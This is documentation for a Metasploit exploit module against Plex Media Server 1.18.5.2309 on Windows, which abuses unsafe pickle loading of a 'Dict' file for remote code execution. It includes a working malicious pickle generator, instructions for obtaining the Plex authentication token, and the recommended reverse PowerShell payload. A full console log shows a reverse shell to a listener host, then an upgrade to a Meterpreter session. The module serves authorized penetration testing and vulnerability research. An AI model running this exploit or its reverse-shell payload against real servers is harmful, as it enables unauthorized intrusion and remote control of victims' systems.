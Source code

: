 ## Vulnerable Application

This module exploits an authenticated Python unsafe `pickle.load` of a
`Dict` file. An authenticated attacker can create a photo library and
add arbitrary files to it. After setting the Windows only Plex
variable `LocalAppDataPath` to the newly created photo library, a file
named `Dict` will be unpickled, which causes an RCE as the user who
started Plex. Due to the restrictions of pickle RCE, we write our
payload to a file then simply execute it through the pickled `Dict`
file.

If an exploit fails, or is cancelled, `Dict` and `Dict.bat` are
left on disk, a new `ALBUM_NAME` will be required as subsuquent writes
will make `Dict-1` and `Dict-1.bat`, and not execute.

A vulnerable version of the software can be downloaded from
[uptodown.com](https://plex-media-server.en.uptodown.com/windows/versions),
specifically [1.18.5.2309](https://plex-media-server.en.uptodown.com/windows/download/2177216)
is vulnerable and used for developing the module.

The plex server needs to be claimed by an account, and the module `PLEX_TOKEN` option
needs permission to create a library, and upload files to it.

### Pickle Stub

This exploit requires a python pickle file which can be generated with the following
code:

```
import pickle
import os

class EvilPickle(object):
  def __init__(self):
    pass
  def __reduce__(self):
     return (os.system,('c:\\Users\\Public\\mememe\\Dict.bat',))

e = EvilPickle()
pickle.dumps(e)
"cposix\nsystem\np0\n(S'c:\\\\Users\\\\Public\\\\mememe\\\\Dict.bat'\np1\ntp2\nRp3\n."
```

However, this was run on Linux and thus `posix` can be seen in the output.  When run
on Windows, the output will be slightly different and use `nt` isntead of `posix`.
The Windows version of the code is required.

### Pickle Gotchas

All the examples of Evil Pickle attacks seem to call one command/function.
[1](https://github.com/fhightower/evil-pickle/blob/master/evil_pickle_writer.py#L17),
[2](https://medium.com/@abhishek.dev.kumar.94/sour-pickle-insecure-deserialization-with-python-pickle-module-efa812c0d565),
[3](https://blog.nelhage.com/2011/03/exploiting-pickle/),
[4](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

Either due to the pickling, or the HTTP server interaction, or running on Windows, all attempts to either call multi-function such as:
```eval(base64.b64decode())```
or execute OS commands with more than one parameter
```os.system('net user...')```
or
```os.system('powershell.exe ...')```
failed.  With this in mind, the strategy of uploading a payload file, and calling it was the one that worked.


## Verification Steps

  1. Install the application
  2. Register/Connect it to your Plex Pass account
  3. Start msfconsole
  4. Do: ```use windows/http/plex_unpickle_dict_rce```
  5. Do: ```run```
  6. You should get a shell.

## Options

### ALBUM_NAME

Name of the photo album to create.  Default is random 6 character.

### LIBRARY_PATH

The path to write the photo library to.  Must be valid.  Default is `C:\\Users\\Public`

### PLEX_TOKEN

The `X-Plex-Token` value from requests from an authenticated session.

There are multiple ways to obtain this value.  The easiest is most likely opening the
Console on your web browser (F12) and typing `window.localStorage.myPlexAccessToken`.
However, it can also be obtained from
[plex library files](https://support.plex.tv/articles/204059436-finding-an-authentication-token-x-plex-token/)
or by following [this comment](https://github.com/rapid7/metasploit-framework/pull/13741#issuecomment-649076121)

### REBOOT_SLEEP

Amount of seconds to sleep waiting on the server to reboot.  In testing `10` seemed to be OK, default is `15`.

### PAYLOAD

Payload is extremly picky, from testing only `cmd/windows/reverse_powershell` worked, however it was very reliable.

## Scenarios

### Plex 10.0.16299 on Windows 10 16299

  ```
  [*] Processing plex.rb for ERB directives.
  resource (plex.rb)> use exploit/windows/http/plex_unpickle_dict_rce
  resource (plex.rb)> set rhosts 1.1.1.1
  rhosts => 1.1.1.1
  resource (plex.rb)> set lhost 2.2.2.2
  lhost => 2.2.2.2
  resource (plex.rb)> set PLEX_TOKEN jy4g8mz2cmHbAaPBsEG7
  PLEX_TOKEN => jy4g8mz2cmHbAaPBsEG7
  resource (plex.rb)> set verbose true
  verbose => true
  resource (plex.rb)> exploit
  [*] Started reverse TCP handler on 2.2.2.2:4444 
  [*] Gathering Plex Config
  [*] Server Name: EXPLOITABLE -win10
  [+] Server OS: Windows (10.0 (Build 16299))
  [+] Server Version: 1.18.5.2309-f5213a238
  [*] Adding new photo library
  [+] Created Photo Library: 94
  [*] Adding pickled Dict to library
  [*] Adding payload to library root
  [*] Changing AppPath
  [*] Restarting Plex
  [*] Sleeping 10 seconds for server restart
  [*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:57277) at 2020-06-19 23:32:00 -0400
  [*] Cleanup Phase: Reverting changes from exploitation
  [*] Changing AppPath
  [*] Restarting Plex
  [!] Tried to delete C:\Users\Public\ULTTqY\Plex Media Server\Plug-in Support\Data\com.plexapp.system\Dict, unknown result
  [*] Deleting Photo Library
  [!] Tried to delete C:\Users\Public\ULTTqY\Dict.bat, unknown result
  
  Could Not Find C:\Windows\.exe
  
  C:\Windows>background
  
  Background session 1? [y/N]  y 
  ```

  ```
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > sessions -u 1
  [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]
  
  [*] Upgrading session ID: 1
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 2.2.2.2:4433 
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > 
  [*] Sending stage (176195 bytes) to 1.1.1.1
  [*] Meterpreter session 2 opened (2.2.2.2:4433 -> 1.1.1.1:57293) at 2020-06-19 23:33:43 -0400
  [*] Stopping exploit/multi/handler
  
  msf5 exploit(windows/http/plex_unpickle_dict_rce) > sessions -i 2
  [*] Starting interaction with 2...
  
  meterpreter > getuid
  Server username: WIN10PROLICENSE\windows
  meterpreter > sysinfo
  Computer        : WIN10PROLICENSE
  OS              : Windows 10 (10.0 Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```

